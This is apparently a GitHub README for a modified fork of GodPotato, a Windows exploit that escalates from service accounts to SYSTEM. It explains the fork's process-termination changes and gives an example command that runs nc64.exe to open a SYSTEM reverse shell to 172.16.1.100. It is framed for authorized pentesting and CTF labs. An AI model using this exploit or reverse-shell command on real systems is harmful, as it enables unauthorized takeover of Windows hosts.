

# GodPotato (Improved Fork)

This is a modified fork of [BeichenDream's GodPotato](https://github.com/BeichenDream/GodPotato), an exploit that leverages COM and DCOM marshaling behavior to escalate privileges from `NETWORK SERVICE` or `LOCAL SERVICE` to `NT AUTHORITY\SYSTEM`.

## 🛠️ What Was Improved

The original version of `GodPotato` successfully impersonates SYSTEM and executes a command using the obtained token. However, the exploit process (`GodPotato.exe`) remains running if the executed command (e.g., a reverse shell) does not produce output or terminate. This can lead to:

- High CPU usage
- Increased memory consumption
- Resource exhaustion in low-spec environments (e.g., 1 GB RAM VMs)
- Processes that remain indefinitely ("zombie" behavior)

### ✅ This fork addresses that by:

- **Modifying `SharpToken.cs`** to remove stdout pipe handling.
- **Launching the payload process using `CreateProcessAsUser` without stdout redirection**.
- **Terminating `GodPotato.exe` immediately after executing the command**, regardless of payload output.

---

## 🔐 Requirements

This exploit works only from service accounts that:

- Belong to `NETWORK SERVICE` or `LOCAL SERVICE`, and
- **Have the `SeImpersonatePrivilege` enabled** (enabled by default for many services).

---

## 🚀 Example Usage

```powershell
.\GodPotato.exe -cmd "cmd /c C:\inetpub\wwwroot\uploads\nc64.exe -e cmd 172.16.1.100 4000"
```

This command spawns a reverse shell as SYSTEM and terminates `GodPotato.exe` right after launching the payload, without keeping the process alive unnecessarily.

---

### 🖼️ Screenshot



---

## 📌 Why This Matters

This behavior is critical in penetration testing labs and CTF scenarios where:

- The target machine has limited CPU/RAM.
- Persistence of the exploit process creates performance issues.
- Automation or rapid chaining of exploits is needed.

---

## 💡 Notes

- The impersonation and privilege escalation logic remains unchanged.
- Only the **execution and post-launch behavior** were optimized.
- Compatible with .NET Framework 4.x.

---

## 🔒 Original Credits

All credit for the exploit concept and base code goes to [BeichenDream](https://github.com/BeichenDream).

This fork simply enhances execution flow for better usability in modern red team environments and lab setups.

---

## ⚠️ Disclaimer

This project is intended for **educational and authorized testing purposes only**.  
Any misuse of this code is **strictly prohibited**. The author does **not accept responsibility** for any damage caused by improper use.  
Always obtain **proper authorization** before performing any security testing.

---
```
